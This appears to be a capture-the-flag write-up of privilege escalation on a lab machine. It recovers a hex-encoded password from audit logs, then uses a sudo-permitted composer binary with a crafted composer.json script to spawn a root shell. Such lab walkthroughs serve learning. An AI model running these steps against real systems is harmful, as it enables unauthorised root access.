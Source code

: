 # Privesc

## cry0l1t3

A password encrypted in `hexadecimal` is found in a `log file`.

```bash
$ cat /var/log/audit/* | grep 'comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

![[Pasted image 20210505151114.png]]

We can connect with this password on the `mrb3n` account.

## mrb3n

`mrb3n` can execute `/usr/bin/composer` as root.

```bash
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

https://gtfobins.github.io/gtfobins/composer/

![[Pasted image 20210505151402.png]]

## Exploit

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo /usr/bin/composer --working-dir=$TF run-script x
```

We are `root`.